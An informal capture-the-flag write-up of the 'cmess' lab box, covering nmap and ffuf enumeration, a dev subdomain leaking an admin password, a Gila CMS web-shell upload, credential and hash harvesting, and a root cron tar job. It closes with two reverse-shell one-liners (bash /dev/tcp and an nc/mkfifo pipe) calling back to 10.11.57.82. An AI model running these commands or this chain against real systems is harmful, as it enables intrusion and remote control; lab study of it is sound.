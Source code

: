 start with nmap.

nmap

22
80

***

http 80 

fuff : common lst

```
01                      [Status: 200, Size: 4086, Words: 431, Lines: 103]
1                       [Status: 200, Size: 4086, Words: 431, Lines: 103]
1x1                     [Status: 200, Size: 4086, Words: 431, Lines: 103]
                        [Status: 200, Size: 3871, Words: 522, Lines: 108]
about                   [Status: 200, Size: 3357, Words: 372, Lines: 93]
About                   [Status: 200, Size: 3343, Words: 372, Lines: 93]
admin                   [Status: 200, Size: 1582, Words: 377, Lines: 42]
api                     [Status: 200, Size: 0, Words: 1, Lines: 1]
assets                  [Status: 301, Size: 322, Words: 20, Lines: 10]
author                  [Status: 200, Size: 3596, Words: 419, Lines: 102]
blog                    [Status: 200, Size: 3857, Words: 522, Lines: 108]
category                [Status: 200, Size: 3868, Words: 522, Lines: 110]
feed                    [Status: 200, Size: 735, Words: 37, Lines: 22]
fm                      [Status: 200, Size: 0, Words: 1, Lines: 1]
index                   [Status: 200, Size: 3857, Words: 522, Lines: 108]
Index                   [Status: 200, Size: 3857, Words: 522, Lines: 108]
lib                     [Status: 301, Size: 316, Words: 20, Lines: 10]
log                     [Status: 301, Size: 316, Words: 20, Lines: 10]
login                   [Status: 200, Size: 1582, Words: 377, Lines: 42]
robots.txt              [Status: 200, Size: 65, Words: 5, Lines: 5]
Search                  [Status: 200, Size: 3857, Words: 522, Lines: 108]
search                  [Status: 200, Size: 3857, Words: 522, Lines: 108]
server-status           [Status: 403, Size: 276, Words: 20, Lines: 10]
sites                   [Status: 301, Size: 320, Words: 20, Lines: 10]
src                     [Status: 301, Size: 316, Words: 20, Lines: 10]
tag                     [Status: 200, Size: 3880, Words: 523, Lines: 110]
tags                    [Status: 200, Size: 3143, Words: 337, Lines: 85]
themes                  [Status: 301, Size: 322, Words: 20, Lines: 10]
tmp                     [Status: 301, Size: 316, Words: 20, Lines: 10]


```


***

subdomains:

dev.cmess.thm


***

go to dev.cmess.thm :

```
Development Log
andre@cmess.thm

Have you guys fixed the bug that was found on live?
support@cmess.thm

Hey Andre, We have managed to fix the misconfigured .htaccess file, we're hoping to patch it in the upcoming patch!
support@cmess.thm

Update! We have had to delay the patch due to unforeseen circumstances
andre@cmess.thm

That's ok, can you guys reset my password if you get a moment, I seem to be unable to get onto the admin panel.
support@cmess.thm

Your password has been reset. Here: KPFTN_f2yxe%


```

login into admin panel using.

`adnre@cmess.thm : KPFTN_f2yxe%`

found version of gila cms : `Gila CMS version 1.10.9 `

replace index.php with shell.php got shell.

password : r0otus3rpassw0rd

tried this password for andre but failed.

***

mysql creds found in config.php.

loged in mysql as root.
found andre hash. try to ccrack it using john.

***

andre password found in /opt/.password.bak : UQfsdCB7aAP6

***

mysql hahs foudn :

```
36AC130A98D826670F12FD1D054839C3813F6FC1
25B64E3D9AA6BE0581E02F705D82F0A6DB155D5F

```

***

```
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *


```

bash -i >& /dev/tcp/10.11.57.82/1337 0>&1

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1| nc 10.11.57.82 4445 >/tmp/" > shell.sh
